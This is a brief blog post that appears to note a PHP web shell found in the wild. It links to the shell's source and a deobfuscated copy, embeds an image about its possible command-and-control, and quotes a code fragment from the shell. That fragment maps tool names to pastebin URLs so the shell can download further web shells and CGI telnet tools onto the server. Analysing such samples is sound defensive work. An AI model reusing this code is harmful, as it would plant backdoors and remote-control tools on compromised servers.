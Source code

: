```yaml
---
layout: post
title:  "Example phpshell"
date:   2020-04-24 12:30:45 +0100
categories:
---
```


# src:

`https://gist.github.com/delyee/bd017c6bb9473191b7eb312f1fce3d1d`

# deobf:

`https://gist.github.com/delyee/b564cb0b4d5230d748d6c6e0b83691eb`

# cnc?

<blockquote class="imgur-embed-pub" lang="en" data-id="a/mpcPphv"><a href="//imgur.com/a/mpcPphv"></a></blockquote><script async src="//s.imgur.com/min/embed.js" charset="utf-8"></script>

# other utils

```php
if ($name === "adminer") $get = array(
        "https://www.adminer.org/static/download/4.3.1/adminer-4.3.1.php",
        "adminer.php"
    );
    elseif ($name === "webconsole") $get = array(
        "https://pastebin.com/raw/2i96fDCN",
        "webconsole.php"
    );
    elseif ($name === "cgitelnet1") $get = array(
        "https://pastebin.com/raw/Lj46KxFT",
        "idx_cgi/cgitelnet1.idx"
    );
    elseif ($name === "cgitelnet2") $get = array(
        "https://pastebin.com/raw/aKL2QWfS",
        "idx_cgi/cgitelnet2.idx"
    );
    elseif ($name === "LRE") $get = array(
        "https://pastebin.com/raw/PVPfA21i",
        "makman.php"
    );
```



